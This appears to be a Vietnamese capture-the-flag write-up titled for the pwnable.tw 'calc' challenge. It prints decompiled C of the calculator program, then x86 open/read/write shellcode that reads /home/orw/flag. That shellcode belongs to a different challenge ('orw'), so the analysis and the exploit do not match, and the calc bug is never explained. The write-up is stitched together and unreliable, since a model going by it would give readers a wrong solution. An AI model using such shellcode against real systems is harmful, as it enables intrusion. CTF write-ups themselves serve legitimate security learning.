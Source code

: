 # pwnable.tw - calc

Have you ever use Microsoft calculator?

`nc chall.pwnable.tw 10100`

# 1) Analysis and find Bug

Đầu tiên ta kiếm tra các secure flag và xem thông tin cơ bản của file.

![checksec.png](images/checksec.png)

Ta tiến hành đọc và phân tích mã nguồn chương trình bằng IDA để tìm hướng khai thác.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ssignal(14, timeout);
  alarm(60);
  puts("=== Welcome to SECPROG calculator ===");
  fflush(stdout);
  calc();
  return puts("Merry Christmas!");
}
```

Hàm main của chương trình thiết lập timeout - khi quá 60s nếu không có tác động input đầu vào nào chương trình sẽ tự động ngắt kết nối. Sau đó là gọi tới hàm `calc()`.

```c
unsigned int calc()
{
  int v1[101]; // [esp+18h] [ebp-5A0h] BYREF
  char s[1024]; // [esp+1ACh] [ebp-40Ch] BYREF
  
  // canary
  unsigned int v3; // [esp+5ACh] [ebp-Ch]
  v3 = __readgsdword(0x14u);
  
  while ( 1 )
  {
    bzero(s, 0x400u);
    if ( !get_expr(s, 1024) )
      break;
    init_pool(v1);
    if ( parse_expr(s, v1) )
    {
      printf("%d\n", v1[v1[0]]);
      fflush(stdout);
    }
  }
  return __readgsdword(0x14u) ^ v3;
}
```

```c
int __cdecl get_expr(int a1, int a2)
{
  int v2; // eax
  char v4; // [esp+1Bh] [ebp-Dh] BYREF
  
  int v5; // [esp+1Ch] [ebp-Ch]
  v5 = 0;
  
  while ( v5 < a2 && read(0, &v4, 1) != -1 && v4 != 10 )
  {
    if ( v4 == 43 || v4 == 45 || v4 == 42 || v4 == 47 || v4 == 37 || v4 > 47 && v4 <= 57 )
    {
      v2 = v5++;
      *(_BYTE *)(a1 + v2) = v4;
    }
  }
  *(_BYTE *)(v5 + a1) = 0;
  return v5;
}
```

```c
_DWORD *__cdecl init_pool(_DWORD *a1)
{
  _DWORD *result; // eax
  int i; // [esp+Ch] [ebp-4h]

  result = a1;
  *a1 = 0;
  for ( i = 0; i <= 99; ++i )
  {
    result = a1;
    a1[i + 1] = 0;
  }
  return result;
}
```

```c
int __cdecl parse_expr(int a1, _DWORD *a2)
{
  int v3; // eax
  int v4; // [esp+20h] [ebp-88h]
  int i; // [esp+24h] [ebp-84h]
  int v6; // [esp+28h] [ebp-80h]
  int v7; // [esp+2Ch] [ebp-7Ch]
  char *s1; // [esp+30h] [ebp-78h]
  int v9; // [esp+34h] [ebp-74h]
  char s[100]; // [esp+38h] [ebp-70h] BYREF
  unsigned int v11; // [esp+9Ch] [ebp-Ch]

  v11 = __readgsdword(0x14u);
  v4 = a1;
  v6 = 0;
  bzero(s, 0x64u);
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)(*(char *)(i + a1) - 48) > 9 )
    {
      v7 = i + a1 - v4;
      s1 = (char *)malloc(v7 + 1);
      memcpy(s1, v4, v7);
      s1[v7] = 0;
      if ( !strcmp(s1, "0") )
      {
        puts("prevent division by zero");
        fflush(stdout);
        return 0;
      }
      v9 = atoi(s1);
      if ( v9 > 0 )
      {
        v3 = (*a2)++;
        a2[v3 + 1] = v9;
      }
      if ( *(_BYTE *)(i + a1) && (unsigned int)(*(char *)(i + 1 + a1) - 48) > 9 )
      {
        puts("expression error!");
        fflush(stdout);
        return 0;
      }
      v4 = i + 1 + a1;
      if ( s[v6] )
      {
        switch ( *(_BYTE *)(i + a1) )
        {
          case '%':
          case '*':
          case '/':
            if ( s[v6] != 43 && s[v6] != 45 )
              goto LABEL_14;
            s[++v6] = *(_BYTE *)(i + a1);
            break;
          case '+':
          case '-':
LABEL_14:
            eval(a2, s[v6]);
            s[v6] = *(_BYTE *)(i + a1);
            break;
          default:
            eval(a2, s[v6--]);
            break;
        }
      }
      else
      {
        s[v6] = *(_BYTE *)(i + a1);
      }
      if ( !*(_BYTE *)(i + a1) )
        break;
    }
  }
  while ( v6 >= 0 )
    eval(a2, s[v6--]);
  return 1;
}
```

# 2) Idea

Ở phần hint của bài cũng đã mô tả khá rõ là ta chỉ có thể dùng shellcode `open`, `read` và `write`, khi chúng ta nhập input là shellcode thì chương trình sẽ thực hiện các công việc mà shellcode đó yêu cầu. Ở đây ta sẽ dùng `syscall_open` để mở file flag ở `/home/orw/flag` và dùng `syscall_read`, `syscall_write` để đọc và ghi flag ra `terminal`, còn về shellcode 32bit thì ta phải tự viết vì đây không phải là shellcode execute nên không phổ biến để chọn.

# 3) Exploit

Đầu tiên sẽ là shellcode `syscall_open` mở file flag ở `/home/orw/flag`. 

```asm
	xor ecx,ecx                ; clear the ecx registry
	mov eax, 0x5               ; sys_open
	push ecx                   ; push a NULL value unto the stack
	push 0x67616c66            ; galf (flag)
	push 0x2f77726f            ; /wro (orw/)
	push 0x2f656d6f            ; /emo (ome/)
	push 0x682f2f2f            ; h/// (///h)
	mov ebx, esp               ; move contents to ebx
	xor edx, edx               ; clear the edx registry
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Tiếp theo là `syscall_read` và `syscall_write` để đọc và ghi flag.

```asm
	mov eax, 0x3               ; sys_read
	mov ecx, ebx               ; contents of the flag file
	mov ebx, 0x3               ; fd
	mov dl, 0x30               ; decimal 48, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall

	mov eax, 0x4               ; sys_write
	mov bl, 0x1                ; decimal 1, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Trên đây là code asm không phải là shellcode, bạn có thể dùng các hàm có sẵn trong `pwntools` để chuyển code trên thành mã shellcode. Tôi dùng tools online [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2) để làm điều đó.

![shellcode.png](images/shellcode.png)

# 4) Source code and get Flag

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

![flag.png](images/flag.png)

------------------------------------------------------
